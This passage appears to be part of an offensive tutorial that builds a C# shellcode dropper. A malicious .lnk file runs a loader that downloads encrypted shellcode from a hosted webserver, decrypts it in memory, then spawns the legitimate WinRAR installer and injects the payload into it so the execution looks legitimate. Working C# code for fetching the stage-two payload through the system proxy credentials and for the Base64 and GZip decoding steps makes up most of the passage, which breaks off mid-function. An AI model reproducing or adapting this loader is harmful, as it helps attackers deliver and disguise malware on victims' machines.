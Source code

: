- Here we add code sections to download and decrypt the encrypted shellcode from a hosted webserver (dropper) along with that parts to spawn the legitimate `winrar` executable and inject shellcode into it.

- The idea basically is that when say the malicious `.lnk` is executed, this program would be executed and would download the encrypted shellcode, decyrpt it in memory and next spawn the legitimate `winrar` installer and inject the decrypted shellcode in it. Basically the `.lnk` execution would seem legitimate as it ultimately spawns the `winrar` installer but is abused to inject shellcode in this legitimate installer.

- We add hardcoded values to do away with arguments during execution.

- Add these function protoype's before the `main()` function to add functions to decrypt the shellcode: ([Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) provides good insight for this)

```
// AES Decrypt Shellcode Prototype Definitions
public static string Get_Stage2(string url)
{
	try
	{
		HttpWebRequest myWebRequest = (HttpWebRequest)WebRequest.Create(url);
		IWebProxy webProxy = myWebRequest.Proxy;
		if (webProxy != null)
		{
			webProxy.Credentials = CredentialCache.DefaultNetworkCredentials;
			myWebRequest.Proxy = webProxy;
		}
		HttpWebResponse response = (HttpWebResponse)myWebRequest.GetResponse();
		Stream data = response.GetResponseStream();
		string html = String.Empty;
		using (StreamReader sr = new StreamReader(data))
		{
			html = sr.ReadToEnd();
		}
		return html;
	}
	catch (Exception)
	{
		Console.ForegroundColor = ConsoleColor.Red;
		Console.WriteLine();
		Console.WriteLine("\n[!] Whoops, there was a issue with the url...");
		Console.ResetColor();
		return null;
	}
}

public static byte[] Base64_Decode(string encodedData)
{
	byte[] encodedDataAsBytes = Convert.FromBase64String(encodedData);
	return encodedDataAsBytes;
}


public static byte[] Decompress(byte[] data)
{
	using (var compressedStream = new MemoryStream(data))
	using (var zipStream = new GZipStream(compressedStream, CompressionMode.Decompress))
	using (var resultStream = new MemoryStream())
	{
		var buffer = new byte[32768];
		int read;
		while ((read = zipStream.Read(buffer, 0, buffer.Length)) > 0)
		{
			resultStream.Write(buffer, 0, read);
```